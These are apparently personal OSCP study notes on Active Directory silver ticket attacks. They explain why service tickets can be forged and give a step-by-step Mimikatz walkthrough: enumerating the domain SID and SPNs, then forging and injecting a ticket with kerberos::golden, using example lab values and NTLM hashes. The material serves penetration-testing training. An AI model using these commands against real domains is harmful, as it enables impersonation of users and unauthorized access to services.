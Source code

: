 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/13-active-directory-attacks/5-silver-tickets/"}
---
```


-----------
- Ability to access SPN as anyone if owns hash of any account of that SPN
- Application checks user permissions in service ticket, but are often not verified by anything
- It trusts the integrity since the ticket is encrypted with the password hash
- Forging these tickets can be prevented with Privileged Account Certificate (PAC) validation. However, it is rare.
- Using an account password or NTLM hash a ticket can be created to access the application on all servers with the same SPN
- Information needed to forge a silver ticket:
	- SPN password hash
	- Domain SID
	- Target SPN
-------------------------
### Forging a silver ticket with Mimikatz:
1. Get NTLM hash in some way.
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Get SPN:
```
#Using setspn.exe:
setspn -L <user>

#Using PowerView:
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
4. Craft ticket:
```
#Run mimikatz:
.\mimikatz.exe

#Engage debug mode:
privilege::debug

#Craft ticket:
kerberos::golden /sid:<sid> /domain:<domain> /ptt /target:<hostname> /service:<service> /rc4:<ntlm> /user:<targetuser>

#Example:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
5. Confirm ticket is loaded in to memory in Powershell:
```
klist
```

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:08d7a47a6f9f66b97b1bae4178747494 /user:iis_service